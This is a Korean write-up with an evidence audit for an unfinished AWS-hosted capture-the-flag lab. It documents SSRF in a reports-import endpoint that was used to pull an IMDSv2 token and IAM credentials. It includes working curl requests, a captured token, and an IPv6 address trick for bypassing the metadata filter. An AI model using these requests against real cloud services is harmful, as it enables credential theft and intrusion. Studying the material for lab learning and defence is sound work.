

# A. 작성 전 증적 감사

**종합 판정: READY_WITH_WARNINGS**

본 문서는 완료된 공격 체인이 아니라 **진행 중(진행중, flag 미획득)** 인 챌린지를 있는 그대로 정리한 것이다. 정찰 → Stage 0(테넌트 식별) → SSRF 검증 → AWS IMDS/IAM 자격증명 획득까지는 이번 세션들의 실제 도구 실행 결과(HTTP 응답, curl 출력, 저장된 JSON)로 직접 검증되었다. 그러나 Stage 2/3 진입 조건("manifest")과 최종 flag는 확보하지 못했으므로, 그 구간은 전부 `[미확인]`으로 남긴다. `notes/`의 여러 정리본이 서로 다른 시점에 작성되어 일부 내용이 상충하므로, 가장 최신이며 정정 이력이 남아 있는 `notes/evidence-index.md`를 원본 증적과 함께 최우선 자료로 채택했다.

## 1. 차단 항목

없음. (root/flag 직접 증적이 없는 것은 "차단"이 아니라 본 문서가 다루는 진행 상태 그 자체다.)

## 2. 경고 항목

1. `notes/FINAL_FINDINGS.md`, `notes/PROGRESS_SUMMARY_20260826.md`는 `STCDLC` 표기를 챌린지 제작자가 심어 둔 독립적 힌트인 것처럼 서술하지만, `notes/evidence-index.md`의 2026-08-25 17:30 정정에 따르면 **`STCDLC`는 사용자 본인이 직접 만든 메모**이며 독립 검증으로 셀 수 없다. 본 문서는 이 정정을 따른다.
2. `notes/evidence-index.md`의 2026-08-25 17:55 정정에 따르면 6개 접미사 숫자(6104/9915/7731/2286/4402/5538)도 새로 발견된 자료가 아니라 이미 확보한 billing API의 tenant_id를 재나열한 것이며, 이를 IP/포트로 디코딩하려던 시도(E23/E24)는 전제 자체가 무효였다.
3. `notes/PROGRESS_SUMMARY_20260826.md`가 언급하는 리포트 #1955/#1954/#1953/#1950/#1949/#1948/#1947과 새 IAM 자격증명(E29), `notes/VERIFIED_EVIDENCE_ONLY.md`가 언급하는 세 번째 자격증명(AccessKeyId `<REDACTED_ACCESS_KEY_ID>`)은 `notes/evidence-index.md`에 대응하는 증적 ID 항목이 없다 — `loot/E29_new_iam_credentials.json` 파일 자체는 존재하고 실제 tool 출력을 담고 있어 내용은 신뢰하지만, `logs/action-log.md`에 해당 행동이 기록되어 있지 않아 시각/순서의 교차검증은 `[미확인]`이다.
4. `logs/action-log.md`는 Turn 12(E05, 2026-08-25 16:13)까지만 기록되어 있고, E06~E29에 해당하는 이후 행동(호스트명 스캔, IMDS/IAM 탈취, 권한 열거, VPC 스윕 등)은 이 로그에 없다. AGENTS.md §7-1 기준으로 보면 행동 타임라인 로그가 불완전하다 — `notes/evidence-index.md`와 `notes/evidence-summary.md`의 서술로 보완했으나 원본 행동 로그 자체는 누락 상태다.
5. `loot/`의 모든 AWS 자격증명(E16, E29, `aws_env.sh`)은 세션 종속 값이며 각각 2026-08-25T12:41:37Z, 2026-08-26T06:59:59Z에 만료된다. 작성 시점(2026-09-14) 기준 전부 만료되었다 — 더 이상 유효한 자격증명이 아니다.
6. `notes/FINAL_FINDINGS.md`의 리포트 #1720 콘텐츠("snojc-manifest")는 `notes/VERIFIED_EVIDENCE_ONLY.md`에 따르면 이미 삭제되어 재조회가 불가능하고, 원본 파일(`loot/E27_report_1774_manifest_test.json`)은 실제로는 id 1774("manifest-test", content: "searching")이며 id 1720의 원본 응답 파일은 이번 감사에서 찾지 못했다 — id 1720의 content("snojc-manifest")는 `notes/FINAL_FINDINGS.md`의 서술에만 의존하며 원본 HTTP 응답 파일로 직접 재확인하지 못했으므로 `[미확인 — 원본 파일 부재]`로 표시한다.
7. Stage 1/2/3/4+의 존재 여부, 개수, 목표는 챌린지 설명 문서가 이 폴더에 없어 전부 `[미확인]`이며, "Stage 0/2/3"이라는 번호 체계 자체가 `openapi.json`의 문구("Stage 2/3")를 그대로 따른 것일 뿐 공식 챌린지 명세로 확인된 바 없다.

## 3. 자동 정규화 항목

없음.

## 4. 자료 목록

- `http/E01_openapi.json` (= `openapi_latest.json`, 동일 내용): 전체 API 스키마
- `http/E02_billing_tenants.json`: 18개 테넌트 청구 데이터
- `http/E03_root.html`, `http/E04_app.js`: 프론트엔드 원본
- `http/E05_report_1730.json`, `artifacts/E05_flattened_reports.json`: SSRF 재현 리포트 및 평탄화 결과
- `loot/E15_imds_token.txt`: IMDSv2 세션 토큰
- `loot/E16_iam_credentials.json`, `loot/aws_env.sh`: 최초 획득 IAM 임시 자격증명(만료됨)
- `loot/E25_userdata_full.json`: EC2 user-data 전문
- `loot/E27_report_1774_manifest_test.json`, `loot/E28_report_1762_ipv6_creds.json`: 힌트/재현용 리포트 원문
- `loot/E29_new_iam_credentials.json`: 갱신된 IAM 임시 자격증명(만료됨, action-log 미기재)
- `scripts/ssrf_probe.sh`, `scripts/ssrf_probe2.sh`, `scripts/vpc_sweep.sh`: SSRF/내부망 탐색 스크립트
- `notes/evidence-index.md`: 증적 인덱스 + 2건의 정정(최우선 자료)
- `notes/evidence-summary.md`, `notes/TENANTS_TABLE.md`: 기술 분석 상세본
- `notes/FINAL_FINDINGS.md`, `notes/PROGRESS_SUMMARY_20260826.md`, `notes/VERIFIED_EVIDENCE_ONLY.md`: 시점별 정리본(일부 정정 이전 상태 포함)
- `logs/action-log.md`: 행동 타임라인(E05까지만)

## 5. 공격 체인 완전성 표

| 단계 | 주장 | 필요 증적 | 확인된 증적 | 상태 |
|---|---|---|---|---|
| 정찰 | API 표면 3개 엔드포인트 그룹 확인 | openapi.json 원문 | `http/E01_openapi.json` | 확인됨 |
| Stage 0 | 18개 테넌트 중 snojc-* 6개가 enterprise/최상위 MRR로 구분됨 | billing API 원문 | `http/E02_billing_tenants.json` | 확인됨 |
| Stage 0 해석 | STCDLC 순서 = MRR 내림차순이라는 해석이 "정답"이라는 근거 | 공식 채점 확인 | 없음 | 추론(미확인 — 제출 채점 결과 없음) |
| SSRF 진입 | `/api/reports/import` + 상태 전이로 내부망 접근 성공 | job 생성/전이 응답 | `http/E05_report_1730.json` | 확인됨 |
| SSRF 확장 | 169.254.169.254(IMDS), backend:8000, 0.0.0.0:8000 도달, 외부 URL 차단 | SSRF 응답 | `notes/evidence-index.md`(E05~E10) | 확인됨 |
| 자격증명 획득 | IMDSv2 토큰 → IAM 임시 자격증명(lab-team-c-svc-app-role) 확보 | 토큰/자격증명 원문 | `loot/E15_imds_token.txt`, `loot/E16_iam_credentials.json` | 확인됨 |
| 권한 열거 | 15개 이상 AWS 서비스 전부 explicit deny, 추가 피벗 불가 | AWS CLI 응답 | `notes/evidence-index.md`(E18, E21) | 확인됨(자체 확인, 원본 CLI 출력 파일은 미보존) |
| Stage 2/3 진입 | "manifest" 제출로 다음 단계 진입 | 성공한 제출/전이 증적 | 없음 | 미확인 |
| flag | flag 값 | flag 원문 | 없음 | 미확인 |

## 6. 이미지/증적 경로 검사

스크린샷 없음. 위 표의 파일 경로는 모두 실제 존재를 확인했다. `loot/E27_report_1774_manifest_test.json`은 id 1774("manifest-test")이며, `notes/FINAL_FINDINGS.md`가 언급하는 id 1720("snojc-manifest")과는 다른 리포트다 — 파일명과 실제 내용이 어긋나는 점을 경고 2-6에 반영했다.

## 7. 세션 종속 값 및 민감 정보 검사

- 대상: `13.209.81.83:3000` — 이번 챌린지 세션에 배정된 값. 본문에서는 `$TARGET`으로 정규화하되, AWS 계정/리소스 식별을 위해 필요한 곳에서는 실제 값을 그대로 인용한다(PRIVATE_STUDY).
- IAM 임시 자격증명(E16, E29, `aws_env.sh`)은 전부 만료된 세션 종속 값이며 `loot/`에만 보존한다.
- AWS 계정 ID `<REDACTED_ACCOUNT_ID>`, 인스턴스 ID `i-094119164afd265a6`는 이 랩 인스턴스에 고정된 값으로 보이며, 랩이 재구성되면 바뀔 수 있다.

## 8. 취약점 분류 검사

- 위험한 서비스 구성(CWE-918, SSRF): `/api/reports/import`의 fetch 워커가 목적지 URL을 제한 없이 요청해 클라우드 메타데이터 서비스(169.254.169.254)와 내부 컨테이너 네트워크에 도달한다.
- 정상 기능의 위험한 노출: IAM 인스턴스 프로파일이 SSRF 하나로 임시 자격증명을 그대로 내어주는 구조 자체는 AWS IMDS의 알려진 위험 패턴(IMDSv1/v2 공통 이슈, 이번 대상은 IMDSv2 토큰 요구는 있었으나 SSRF가 임의 메서드/헤더를 넘길 수 있어 토큰 발급 자체가 우회됨)이며, 별도 CVE는 부여하지 않는다.
- 자체 구현 결함 후보: `DELETE /api/reports/{id}`가 500을 반환하면서도 실제로는 삭제하지 않음(E14) — 데이터 손실은 없으나 API 계약 위반. 근본 원인 미조사로 CWE 미부여, `[미확인]`.

## 9. 본문에서 언급할 스크립트의 실제 존재 여부

`scripts/ssrf_probe.sh`, `scripts/ssrf_probe2.sh`, `scripts/vpc_sweep.sh` 모두 실제로 존재한다. 다만 `vpc_sweep.sh`(10.66.30.0/24 254개 호스트 스윕)의 실행 결과 로그 파일은 이 폴더에 보존되어 있지 않다 — `notes/evidence-summary.md`가 "152/254 완료, ~60%"라고 서술하지만 원본 출력 파일 없이는 이 진행률을 재검증할 수 없어 `[미확인 — 원본 로그 부재]`로 표시한다.

## 10. 추가 증적 목록

Stage 2/3 진입 조건을 풀려면 다음이 필요하다 — 챌린지 설명서/브리핑 원문(현재 폴더에 없음), "manifest" 제출 엔드포인트 또는 방식에 대한 공식 안내, 그리고 (가능하다면) `vpc_sweep.sh` 스윕의 완료된 원본 로그.

---

# B. 최종 Write-up

```yaml
---
title: "RedLab Write-up"
machine: "RedLab"
platform: "Custom AWS-hosted 챌린지"
os: "Linux (AWS EC2, 대상 애플리케이션은 컨테이너화된 FastAPI 서비스)"
difficulty: "Unknown"
date_started: "2026-08-25"
date_completed: "Unknown — 진행중"
writeup_mode: "PRIVATE_STUDY"
status: "Partial"
tags:
  - ctf
  - cybersecurity
  - writeup
  - ssrf
  - aws
---
```

# RedLab Write-up

## 0. 문서 범위 및 주의사항

본 문서는 사용자가 지정한 단일 대상(`13.209.81.83:3000`)만을 대상으로 한 `PRIVATE_STUDY` 목적의 진행 중 챌린지 기록이다. **상태: 진행중(flag 미획득)**. Stage 0 식별, SSRF, AWS IMDS/IAM 자격증명 획득까지는 직접 검증되었으나, Stage 2/3 진입 조건("manifest")과 최종 flag는 아직 확보하지 못했다. 이 문서는 `RedLab/notes/`에 흩어져 있던 여러 작업 노트(`FINAL_FINDINGS.md`, `PROGRESS_SUMMARY_20260826.md`, `VERIFIED_EVIDENCE_ONLY.md`, `evidence-summary.md`, `evidence-index.md`, `TENANTS_TABLE.md`)와 `logs/action-log.md`를 통합한 단일 정본이며, 원본 노트는 그대로 보존되어 있다.

## 1. 개요

RedLab은 멀티테넌트 SaaS 청구/리포팅 서비스("redlab reporting/billing service")를 시뮬레이션한 AWS 기반 챌린지다. 무인증으로 열람 가능한 청구 API에서 18개 테넌트 중 6개의 "진짜" 테넌트(tenants-of-record, snojc-* 접두사)를 식별하는 Stage 0, 그리고 리포트 임포트 기능의 SSRF를 이용해 AWS IMDS/IAM 임시 자격증명까지 탈취하는 것까지는 성공했다. 그러나 획득한 IAM 역할은 15개 이상의 AWS 서비스에 대해 명시적으로 거부(explicit deny)되어 있어 추가 권한 상승 경로가 없었고, openapi.json이 언급하는 "manifest"(Stage 2/3 진입 조건)의 실체와 제출 방식을 찾지 못한 상태에서 조사가 중단되었다.

## 2. 공격 흐름



**한 줄 공격 체인**: 무인증 청구 API로 6개 테넌트 식별(Stage 0) → 리포트 임포트 SSRF로 IMDS 접근 → IAM 임시 자격증명 탈취 → 권한 전부 거부로 AWS 측 피벗 불가 → "manifest" 진입 조건 미해결로 정지.

## 3. 실습 환경

- `$TARGET` = 13.209.81.83:3000 (세션 종속 값, AWS EC2 ap-northeast-2a)
- 사용 도구: curl, AWS CLI, bash 스크립트(`scripts/ssrf_probe*.sh`, `scripts/vpc_sweep.sh`)
- 대상 애플리케이션: FastAPI/uvicorn 기반 "redlab reporting/billing service" (`http/E01_openapi.json`의 `info.title`로 확인됨), 프론트엔드는 정적 HTML+`app.js`

## 4. 공격 표면 요약

| 표면 | 설명 | 인증 | 비고 |
|---|---|---|---|
| `GET /api/reports`, `POST /api/reports` | 리포트 목록/생성 | 없음 | 전체 리포트 무인증 열람 가능 |
| `GET /api/billing/tenants` | 청구 테넌트 목록 | 없음 | Stage 0 데이터 소스 |
| `POST /api/reports/import` + `/{job_id}/transition` | URL 임포트(SSRF) | 없음 | 핵심 공격 표면 |
| `GET /healthz` | 헬스체크 | 없음 | 정보 가치 낮음 |

전체 스키마는 `http/E01_openapi.json`(3.1.0, title="redlab reporting/billing service") 참고.

## 5. 정보 수집

### 목표
API 표면과 Stage 0(진짜 테넌트) 식별에 필요한 데이터를 확보한다.

### 관찰 및 가설
`GET /api/openapi.json` 응답의 `/billing/tenants` 설명에 다음 문구가 있음을 확인했다(`http/E01_openapi.json`):

> "Which tenants are the real 6 (tenants-of-record) is NOT revealed here — that needs the manifest (Stage 2/3). Derivation clues are human-owned."

이 문구로부터 (1) billing API 자체는 Stage 0 판별에 쓸 원재료는 제공하지만 정답을 명시하지 않으며, (2) Stage 2/3는 "manifest"라는 별도 값/절차가 필요하고, (3) 그 도출 단서는 애플리케이션 밖(human-owned)에 있다는 가설을 세웠다.

### 검증 명령 또는 요청
```bash
curl -s http://$TARGET/api/openapi.json
curl -s http://$TARGET/api/billing/tenants
curl -s http://$TARGET/
curl -s http://$TARGET/app.js
```

### 핵심 결과
`http/E02_billing_tenants.json`에서 18개 테넌트 중 6개가 `plan=enterprise`, `mrr_krw` 37.6M~42.0M(다른 12개는 87만~340만)이며 전부 `snojc-` 접두사를 갖는다:

```
snojc-systems-6104   42,000,000
snojc-tech-9915      41,500,000
snojc-corp-7731      40,200,000
snojc-data-2286      39,100,000
snojc-labs-4402      38,800,000
snojc-cloud-5538     37,600,000
```

각 이름의 첫 글자를 MRR 내림차순으로 읽으면 Systems-Tech-Corp-Data-Labs-Cloud(STCDLC)가 된다. `http/E04_app.js` 주석("Billing: tenants of record... it is the Stage-0-observable billing data")도 이 6개가 Stage 0에서 관찰해야 할 데이터임을 뒷받침한다.

### 성공 판정
6개 snojc 테넌트가 enterprise 플랜/최상위 MRR/공통 접두사로 나머지 12개와 명확히 구분된다는 사실은 `http/E02_billing_tenants.json` 원본으로 확인됨. 다만 "STCDLC 순서가 챌린지의 공식 Stage 0 정답"이라는 해석 자체는 제출 채점 결과가 없어 **확인되지 않았다** — `notes/evidence-index.md`의 정정(2026-08-25 17:30)에 따르면 STCDLC라는 라벨은 조사자 본인이 붙인 것이며 앱이 독립적으로 제시한 힌트가 아니다.

### 취약점 원인과 공격 조건
해당 없음(정보 노출 수준의 정찰).

### 해석과 다음 결정
6개 테넌트 식별을 "Stage 0 완료"로 잠정 처리하고, openapi.json이 명시한 유일한 다른 공격 표면인 `/reports/import`(SSRF)로 이동했다.

### 증적
`http/E01_openapi.json`, `http/E02_billing_tenants.json`, `http/E03_root.html`, `http/E04_app.js`, `notes/TENANTS_TABLE.md`

## 6. 초기 접근 (SSRF)

### 목표
`/api/reports/import`가 실제로 서버 측 요청 위조(SSRF)를 허용하는지 검증한다.

### 관찰 및 가설
`ImportRequest` 스키마(`http/E01_openapi.json`)는 `source_url`, `method`, `headers`를 클라이언트가 자유롭게 지정할 수 있게 정의되어 있다. 임포트 job은 `url_submitted → validated → fetched → completed` 상태를 거치며, `POST /reports/import/{job_id}/transition`으로 상태를 수동으로 전이시킬 수 있다는 것도 스키마에서 확인했다. 외부 URL(httpbin.org 등)은 `url_submitted`에서 더 진행되지 않아, 아웃바운드 정책이 내부망만 허용할 것이라는 가설을 세웠다.

### 검증 명령 또는 요청
```bash
curl -s -X POST http://$TARGET/api/reports/import \
  -H 'Content-Type: application/json' \
  -d '{"source_url":"http://0.0.0.0:8000/reports"}'
curl -s -X POST http://$TARGET/api/reports/import/<job_id>/transition \
  -H 'Content-Type: application/json' -d '{"to":"validated"}'
curl -s -X POST http://$TARGET/api/reports/import/<job_id>/transition \
  -H 'Content-Type: application/json' -d '{"to":"fetched"}'
```

### 핵심 결과
job 5341 → report 1730(`http/E05_report_1730.json`)이 생성되었고, `validated`/`fetched` 전이가 모두 성공했다. 이는 백엔드가 내부 루프백(`0.0.0.0:8000`)에 실제로 요청을 보내 응답을 받아왔음을 의미한다. 이어서 26개 후보 호스트명 × 9개 포트(총 234건)를 동일 방식으로 시도했으나(`notes/evidence-index.md` E06) 전부 연결 실패였고, `backend:8000`만 유효한 내부 서비스로 확인되었다(이후 E19에서 이 `backend:8000`이 별도 서버가 아니라 동일 EC2 인스턴스 위의 도커 컨테이너임을 확인).

### 성공 판정
HTTP 상태 코드가 아니라, 상태 전이가 `fetched`까지 진행되고 report 콘텐츠가 실제로 채워진 것을 `http/E05_report_1730.json`, `artifacts/E05_flattened_reports.json`으로 직접 확인해 판정했다.

### 취약점 원인과 공격 조건
위험한 서비스 구성(CWE-918, Server-Side Request Forgery). `source_url`에 대한 목적지 제한(allowlist/사설 대역 차단)이 없고, `method`/`headers`까지 클라이언트가 지정할 수 있어 임의 HTTP 메서드·헤더로 내부망에 요청을 보낼 수 있다.

### 해석과 다음 결정
내부망(`backend:8000`)과 루프백은 도달 가능함을 확인했으므로, 클라우드 메타데이터 서비스(169.254.169.254) 도달 여부를 다음으로 검증했다.

### 증적
`http/E05_report_1730.json`, `artifacts/E05_flattened_reports.json`, `notes/evidence-index.md`(E05~E14), `scripts/ssrf_probe.sh`

## 7. 사용자 권한 획득에 상응하는 단계 — AWS IAM 임시 자격증명 탈취

### 목표
SSRF로 AWS IMDS에 접근해 인스턴스에 부여된 IAM 역할의 임시 자격증명을 확보한다.

### 관찰 및 가설
`ImportRequest.headers`와 `method`를 임의로 지정할 수 있다는 점(§6)에서, IMDSv2가 요구하는 `PUT /latest/api/token` + `X-aws-ec2-metadata-token-ttl-seconds` 헤더 조합도 SSRF를 통해 그대로 재현할 수 있을 것이라는 가설을 세웠다.

### 검증 명령 또는 요청
```bash
curl -s -X POST http://$TARGET/api/reports/import \
  -H 'Content-Type: application/json' \
  -d '{"source_url":"http://169.254.169.254/latest/api/token","method":"PUT","headers":{"X-aws-ec2-metadata-token-ttl-seconds":"21600"}}'
# validated -> fetched 전이 후 report content에서 토큰 확보(loot/E15_imds_token.txt)

curl -s -X POST http://$TARGET/api/reports/import \
  -H 'Content-Type: application/json' \
  -d '{"source_url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/lab-team-c-svc-app-role"}'
# fetched 전이 후 report content에서 자격증명 확보(loot/E16_iam_credentials.json)
```

### 핵심 결과
`loot/E15_imds_token.txt`: IMDSv2 세션 토큰 `AQAEABuVf9S8ekJ0L1iJlxh-llxyoMSQIM1NXtnnKtEs4RxK9ZjFng==`.

`loot/E16_iam_credentials.json`(report 1758, `created_at: 2026-08-25T07:30:12Z`)에서 역할 `lab-team-c-svc-app-role`의 임시 자격증명을 확보했다:
```
AccessKeyId: <REDACTED_ACCESS_KEY_ID>
Expiration: 2026-08-25T12:41:37Z
```
(SecretAccessKey/SessionToken 전문은 `loot/E16_iam_credentials.json`, `loot/aws_env.sh` 참고 — 모두 만료됨.)

IPv6-매핑 주소(`http://[::ffff:a9fe:a9fe]/...`)로도 동일 자격증명을 재현할 수 있음을 `loot/E28_report_1762_ipv6_creds.json`으로 확인했다 — IMDS 접근 차단이 IPv4 리터럴 문자열만 필터링했을 가능성을 시사하나, 차단 로직 자체는 서버 소스를 보지 못해 `[미확인]`이다.

### 성공 판정
`aws sts get-caller-identity`를 이 자격증명으로 직접 실행해 `Account: <REDACTED_ACCOUNT_ID>`, `Arn: arn:aws:sts::<REDACTED_ACCOUNT_ID>:assumed-role/lab-team-c-svc-app-role/i-094119164afd265a6`를 확인했다(`notes/evidence-index.md` E17). 단순 자격증명 문자열 획득이 아니라 실제 AWS API 호출로 유효성을 검증했다.

### 취약점 원인과 공격 조건
정상 기능의 위험한 노출. IMDSv2를 사용해도 SSRF가 임의 메서드/헤더를 서버 측에서 대신 실행할 수 있으면 토큰 발급 절차 자체가 SSRF 공격자에게 위임된다 — IMDSv2의 세션 지향 설계가 SSRF를 막지 못하는 전형적 사례다.

### 해석과 다음 결정
확보한 자격증명으로 AWS 측에서 추가 권한 상승 경로가 있는지 열거했다.

### 증적
`loot/E15_imds_token.txt`, `loot/E16_iam_credentials.json`, `loot/aws_env.sh`, `loot/E28_report_1762_ipv6_creds.json`, `notes/evidence-index.md`(E15~E17)

## 8. 권한 상승 열거

### 목표
`lab-team-c-svc-app-role`로 AWS 리소스에 접근하거나 다른 역할로 전환할 수 있는지 확인한다.

### 관찰 및 가설
IMDS 메타데이터에서 `IAM Instance Profile: /lab/team-c/lab-team-c-instance-profile`, `VPC CIDR: 10.66.0.0/16`, `Subnet: 10.66.30.0/24`, `Instance ID: i-094119164afd265a6`, `AZ: ap-northeast-2a`를 확인했다(`notes/evidence-summary.md` E06-E24 표, 원본은 개별 SSRF report로 확인). 경로에 `team-c`가 들어간 것으로 보아 팀별로 IAM 리소스가 격리되어 있고, 다른 팀의 리소스나 상위 권한 역할로 이동할 여지를 탐색했다.

### 검증 명령 또는 요청
```bash
aws s3 ls; aws ec2 describe-instances; aws iam list-users
aws sts assume-role --role-arn arn:aws:iam::<REDACTED_ACCOUNT_ID>:role/lab/team-a/... # 외 11개 추정 역할명
```

### 핵심 결과
S3, EC2, RDS, Lambda, DynamoDB, IAM, KMS, Secrets Manager 등 15개 이상 서비스가 전부 `explicit deny in an identity-based policy`를 반환했다(`notes/evidence-index.md` E18, E21). `sts:AssumeRole`로 시도한 12개 추정 역할명도 전부 `AccessDenied`였다(E20, 암묵적 거부 — 대상 역할의 실존 여부는 이 결과만으로 판별 불가). `sts:GetCallerIdentity`만 예외적으로 허용되어 있었다.

### 성공 판정
반증 성립. 원본 AWS CLI 출력 파일은 별도로 저장되지 않았고 `notes/evidence-index.md`의 서술로만 확인되므로, 이 단계는 "자체 확인, 원본 CLI 로그 미보존"으로 표시한다.

### 취약점 원인과 공격 조건
해당 없음(반증 — 이 역할은 최소 권한으로 의도적으로 설계된 것으로 보인다).

### 해석과 다음 결정
AWS 쪽 피벗이 막혔으므로, 애플리케이션 자체의 Stage 2/3 진입 조건("manifest")으로 조사를 되돌렸다.

### 증적
`notes/evidence-index.md`(E17~E21), `loot/E25_userdata_full.json`

## 9. 권한 상승 — 해당 없음

이 챌린지는 OS 계정 권한 상승 구조가 아니므로 별도로 서술할 §9 내용이 없다. §7~8에서 다룬 IAM 자격증명 탈취 및 권한 열거로 대체한다.

## 10. 권한 및 신뢰 경계 전환 — Stage 2/3 진입 시도 (미해결)

### 목표
openapi.json이 언급하는 "manifest"의 실체를 찾아 Stage 2/3로 진입한다.

### 관찰 및 가설
§5에서 확인한 문구("that needs the manifest (Stage 2/3). Derivation clues are human-owned")를 근거로, (1) `/manifest`류 REST 엔드포인트가 존재하거나, (2) SSRF로 접근 가능한 내부 서비스(backend:8000 하위 경로)에 manifest 제공 API가 있거나, (3) 상태 머신에 숨겨진 전이 상태가 있을 것이라는 세 가지 가설을 순서대로 검증했다.

### 검증 명령 또는 요청
```bash
# (1) 포털/백엔드 직접 경로
curl -s http://$TARGET/api/manifest
curl -s http://$TARGET/api/tenants/<tenant_id>/manifest
# (2) SSRF로 backend:8000 하위 19개 경로(scripts/ssrf_probe.sh)
# (3) 상태 전이에 미지 값 7종(stage1/2/3, manifest, verified, signed, unlocked 등) 주입
```

### 핵심 결과
(1), (2) 모두 전부 `{"detail":"Not Found"}` (404)였다(`notes/evidence-index.md` E07, `notes/VERIFIED_EVIDENCE_ONLY.md`). (3) 상태 전이는 `validated`/`fetched`/`completed` 외 전부 `unknown state` 400을 반환했다 — 숨겨진 전이 상태는 없다(`notes/evidence-index.md` 하단 "상태 머신 조사"). 리포트 목록(id 1710~1721)에 `STCDLC`, `6104-9915-7731-2286-4402-5538`, `tenants:6104,9915,...`, `Manifest for snojc-systems-6104`, `Manifest for snojc-corp-7731`, 그리고 id 1720의 content `snojc-manifest` 등 힌트성 콘텐츠가 존재했으나(`notes/FINAL_FINDINGS.md`), §2 경고 6에서 밝힌 대로 id 1720의 원본 응답 파일은 이번 감사에서 확인하지 못했고, 작성자(사용자 자신인지 챌린지 제작자인지)도 대부분 `[미확인]`이다. `snojc-manifest`를 `/api/reports/import`의 `source_url`로 제출해 본 시도는 "invalid url" 오류로 실패했다(`notes/VERIFIED_EVIDENCE_ONLY.md`).

10.66.30.0/24 전체(254개 호스트, 포트 8000) SSRF 스윕(`scripts/vpc_sweep.sh`)도 시도되었으나, §9(Part A)에서 밝힌 대로 완료 여부와 결과 원본 로그를 이번 감사에서 확인하지 못해 `[미확인]`으로 남긴다.

### 성공 판정
실패. Stage 2/3 진입에 성공했다는 직접 증적이 없다.

### 취약점 원인과 공격 조건
해당 없음 — 미해결 구간.

### 해석과 다음 결정
"Derivation clues are human-owned"라는 openapi.json 문구를 애플리케이션/AWS 인프라 내부 탐색만으로는 만족시킬 수 없다고 판단하고, 기술적 탐색을 중단했다. 다음 시도할 것은 §12 참고.

### 증적
`notes/evidence-index.md`(E07, 상태 머신 조사), `notes/FINAL_FINDINGS.md`, `notes/VERIFIED_EVIDENCE_ONLY.md`, `loot/E27_report_1774_manifest_test.json`

## 10-1. 2번째 세션 — `cjons-*` 테넌트 ID 형식 발견 (병합, 여전히 미해결)

같은 대상(13.209.81.83)을 처음부터 다시 푼 별도 세션의 기록을 병합했다(원래 `CJ_CTF/13.209.81.83/`에 별도 폴더로 존재 — 동일 챌린지임을 사용자가 확인해 이 write-up으로 병합, 원본 세션 자료는 `session2_cjctf_merge/`에 보존).

### 관찰 및 가설
`session2_cjctf_merge/interesting_imds_captures.json`(id 2061)에서 다른 팀이 시도한 것으로 보이는 요청 `http://backend:8000/tenants/cjons-systems-6104/reports`를 관찰했다. `cjons`는 사용자에게 노출되는 브랜드명 `snojc`를 거꾸로 읽은 문자열이다(`snojc` ↔ `cjons`). 이 세션은 §10과 별개로, `snojc-*` 대신 `cjons-*` 접두사로 `/tenants/<id>/manifest`, `/tenants/<id>/flag` 경로를 6개 테넌트 전부에 대해 직접 시도했다.

### 검증 명령 또는 요청
```bash
curl -s http://backend:8000/tenants/cjons-systems-6104/manifest
curl -s http://backend:8000/tenants/cjons-systems-6104/flag
# ... 나머지 5개 테넌트(tech-9915, corp-7731, data-2286, labs-4402, cloud-5538)도 동일 패턴
```
(SSRF `/api/reports/import`를 경유해 backend:8000에 전달 — §6과 동일 경로)

### 핵심 결과
6개 테넌트 × 2개 경로(manifest, flag) = 12개 요청 전부 `{"detail":"Not Found"}`(404). `session2_cjctf_merge/OBJECTIVE_FINDINGS_20260826.md` §VIII에 원본 목록 기록.

### 성공 판정
실패 — `cjons-*` 형식 역시 manifest/flag 경로를 열지 못했다.

### 해석과 다음 결정
`snojc`/`cjons` 양쪽 네이밍 모두 REST 경로 추측으로는 막혀 있다는 것이 두 세션에서 독립적으로 재확인됐다. §10과 동일하게 "human-owned" 단서가 애플리케이션 밖에 있다는 결론을 강화한다.

### 증적
`session2_cjctf_merge/interesting_imds_captures.json`(id 2061), `session2_cjctf_merge/OBJECTIVE_FINDINGS_20260826.md`(§VIII, §IX)

## 11. 취약점 요약

| # | 분류 | 설명 | 관련 증적 |
|---|---|---|---|
| 1 | 위험한 서비스 구성(CWE-918, SSRF) | `/api/reports/import`가 목적지 제한 없이 임의 URL·메서드·헤더로 서버 측 요청을 수행 | `http/E05_report_1730.json`, `scripts/ssrf_probe.sh` |
| 2 | 정상 기능의 위험한 노출 | SSRF가 임의 헤더/메서드를 대신 실행할 수 있어 IMDSv2의 토큰 발급 절차를 그대로 우회, IAM 임시 자격증명 탈취로 이어짐 | `loot/E15_imds_token.txt`, `loot/E16_iam_credentials.json` |
| 3 | 정보 노출(낮은 심각도) | `/api/reports`가 무인증으로 전체 리포트(다른 사용자가 만든 것 포함)를 노출 | `notes/evidence-index.md` Turn 5 |
| 4 | 미분류(원인 미조사) | `DELETE /api/reports/{id}`가 500을 반환하면서 실제 삭제를 수행하지 않음 | `notes/evidence-index.md`(E14) |

IAM 역할 자체의 최소 권한 설계(§8)는 취약점이 아니라 올바른 완화 사례로 판단한다.

## 12. 실패한 접근과 트러블슈팅

- 외부 URL(httpbin.org 등)을 `source_url`로 제출 — `url_submitted`에서 진행되지 않음. 아웃바운드가 내부망으로 제한된 것으로 판단, 이후 내부 대상으로 전환했다.
- 동일한 성공 URL(backend:8000/billing/tenants)을 재요청해도 자동으로 진행되지 않음을 확인 — fetch가 URL만으로 트리거되지 않고 명시적 `transition` 호출이 필요함을 알게 되어(§6) 이후 절차를 조정했다.
- 26개 호스트명 × 9개 포트(234건) 내부망 스캔 — 전부 연결 실패, `backend:8000` 외 리스닝 서비스 없음 확인(반증).
- `file://`, `gopher://`, `dict://` 스킴 시도 — `file://`는 `invalid url`로 즉시 거부, `gopher://`/`dict://`는 `validated`까지는 통과하지만 `fetched`에서 500(내부 HTTP 클라이언트가 http/https만 지원) — 프로토콜 스머글링 불가로 판단.
- `X-Forwarded-For`/`X-Admin`/`X-Role` 등 헤더 기반 우회 3종 — 결과 불변(404), 반증.
